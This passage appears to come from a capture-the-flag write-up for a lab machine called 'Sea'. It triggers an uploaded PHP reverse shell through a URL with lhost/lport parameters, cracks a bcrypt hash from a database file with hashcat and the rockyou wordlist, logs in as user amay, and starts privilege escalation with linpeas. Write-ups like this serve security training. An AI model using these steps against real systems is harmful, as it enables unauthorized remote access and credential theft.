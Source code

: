 Now accest to the url with the correct params

```bash	
http://10.10.11.28/themes/revshell-main/rev.php?lhost=<you ip>&lport=1234
```
Now, u are logged as www-data on the machine. 

After this, we need to search how to a user with more privileges.

We can find this on **/var/www/sea/database.js**

<p>
    <img src="assets/img/writeupImgs/sea/1_FdIyMRyN4p7hilNxRioLWA.webp" width="700"
    alt="Descripción">
</p>

Crack this hash with hashcat

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

And log in as that user (**amay**), after this, you can get user flag.

## 4. Privilege Escalation

Run linpeas and you can find Netstat command a networking tool used for troubleshooting and configuration.

<p>
    <img src="assets/img/writeupImgs/sea/1_lCdR_t36smOz_kFg9hk_Kg.webp" width="700"
    alt="Descripción">
</p>
